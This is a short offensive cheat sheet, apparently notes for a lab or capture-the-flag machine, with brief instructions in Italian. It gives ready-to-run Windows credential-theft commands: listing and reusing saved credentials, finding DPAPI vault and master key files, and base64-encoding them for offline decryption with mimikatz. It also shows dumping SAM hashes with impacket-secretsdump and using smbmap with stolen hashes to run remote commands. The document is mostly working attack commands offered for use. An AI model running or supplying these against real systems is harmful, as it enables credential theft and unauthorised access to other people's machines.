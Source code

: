 ## DPAPI Abuse (https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)
cmdkey /list  
runas /user:DOMAIN\USER /savecred  
cmd /c "dir /S /AS C:\Users\security\AppData\Local\Microsoft\Vault & dir /S /AS  
C:\Users\security\AppData\Local\Microsoft\Credentials & dir /S /AS  
C:\Users\security\AppData\Local\Microsoft\Protect & dir /S /AS  
C:\Users\security\AppData\Roaming\Microsoft\Vault & dir /S /AS  
C:\Users\security\AppData\Roaming\Microsoft\Credentials & dir /S /AS  
C:\Users\security\AppData\Roaming\Microsoft\Protect"

(FIND FILES and MASTERKEYS for DPAPI ABUSE)

[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\security\AppData\Roaming\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290"))  
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001\0792c32e-48a5-4fe3-8b43-d93d64590580"))

Copiare e incollare in file in Linux, usare base64 -d sui file e salvare il contenuto per ricreare il file originale.  

Usare mimikatz in Windows per estrarre credenziali usando le info recuperate.

## SAM hive dump
_impacket-secretsdump -system SYSTEM -sam SAM LOCAL_

## SMB Enumeration
_smbmap -u \[USERNAME\] -p \[PASSWORD OR NTLM HASH\] -H \[HOST OR IP\]_  
_smbmap -u \[USERNAME\] -p \[PASSWORD OR NTLM HASH\] -H \[HOST OR IP\] -s \[SHARE\] -x \['COMMAND TO EXECUTE'\]_  
